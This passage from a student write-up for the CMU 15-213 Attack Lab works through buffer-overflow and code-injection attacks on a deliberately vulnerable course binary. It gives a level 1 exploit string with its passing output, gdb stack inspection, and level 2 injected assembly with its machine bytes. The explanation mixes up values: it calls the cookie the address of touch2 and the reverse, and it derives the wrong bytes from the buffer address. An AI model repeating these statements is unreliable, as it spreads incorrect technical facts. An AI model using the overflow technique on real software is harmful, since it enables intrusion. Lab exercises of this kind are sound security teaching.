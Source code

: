 ### 5) Verification result:
Run the program, we can get such the successful result (`level1.txt` contains our attack string):
```
li@li-KLV-WX9:~/Desktop/CMU-152-13/target1$ cat level1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
    user id	bovik
    course	15213-f15
    lab	attacklab
    result	1:PASS:0xffffffff:ctarget:1:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 C0 17 40 00 00 00 00 
```

## Level 2:
### 1) Analyse the problem:
In the level, the problem we dealing with is that we must satify the condition: `val == cookie`. We can achieve this by doing some code injection.
`val` is passed to the function `touch2()` in register `%rdi`, so we need to change the value of `%rdi` to `cookie`.
So, we can solve the problem by such procedure: 
- When we are in the function `getbuf` Use buffer overflow, change the return adress to the beginning of the buffer, where we can inject our code.
- Then, the program start to excute our injecting code, which should change the register `%rdi` to the value of `cookie`. Then push the adress of `touch2()` to the run-time stack and finally return.
- Finally, the code start to excute `touch2()` with expression `val == cookie` satisified.
    
### 2) Find the beginning address of the buffer
Set a break point in `getbuf` after `Gets()` returned, by looking the assembly code, we can figure out that when the stack pointer points to the beginning of the buffer:
```
    0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
 => 0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq
 ```
Then by check the value of `%rsp` we can get the adress of the start of buffer:
```
(gdb) x $rsp
0x5561dc78:	0x00000000
```
By convert it to little-endian, we can get the last part of our attack string: `c0 17 40 00 00 00 00`

### 3) Find the injection code
We can write our injection code as:
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```
In the code, `$0x59b997fa` is the start position of fucntion `touch2()`. `$0x4017ec` is hex representation of our `cookie`.
Then by disassenble the code, we can get the binary representation of the code:
```
0000000000000000 <.text>:
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
7:	68 ec 17 40 00       	pushq  $0x4017ec
c:	c3                   	retq   
```